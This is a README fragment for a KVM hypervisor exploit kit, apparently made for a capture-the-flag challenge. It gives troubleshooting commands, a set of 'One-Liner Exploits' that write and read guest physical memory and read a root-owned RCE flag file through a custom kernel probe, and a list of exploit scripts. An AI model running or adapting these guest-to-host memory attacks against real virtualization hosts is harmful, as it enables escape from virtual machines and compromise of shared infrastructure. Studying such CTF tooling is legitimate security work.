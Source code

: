### Issue: "Permission denied"
```bash
# Must be root
sudo su

# Or fix permissions
sudo chmod 666 /dev/kvm_probe_dev
```

### Issue: "IOCTL failed"
```bash
# Check kernel messages
dmesg | tail -10

# Verify IOCTL number is correct
# Try basic test
kvm_prober trigger_hypercall
```

### Issue: "No IVSHMEM devices"
```bash
# List all PCI devices
lspci -v

# Look for virtio devices (may work similarly)
lspci | grep -i virtio

# Try direct GPA access instead
kvm_prober writegpa 64279a8 4443424241efbeadde
```

## 🎯 One-Liner Exploits

```bash
# Quick write flag
sudo kvm_prober writegpa 64279a8 4443424241efbeadde && sudo kvm_prober readgpa 64279a8 8

# Quick read flag
sudo kvm_prober readgpa 695ee10 64

# Quick RCE
sudo kvm_prober readfile /root/rce_flag 0 256

# All in one (Python)
sudo python3 -c "from hybrid_kvm_exploit import *; HybridExploit().run_all_exploits()"
```

## 📚 File Reference

| File | Purpose |
|------|---------|
| `kvm_probe_drv.c` | Kernel module source |
| `kvm_prober.c` | Userspace CLI tool |
| `hybrid_kvm_exploit.py` | **Main exploit** (IVSHMEM + Direct) |
| `ivshmem_kvm_exploit.py` | IVSHMEM-focused |
| `comprehensive_kvm_exploit.py` | Direct access only |
| `kvm_direct_exploit.c` | C implementation |
| `setup.sh` | Installation script |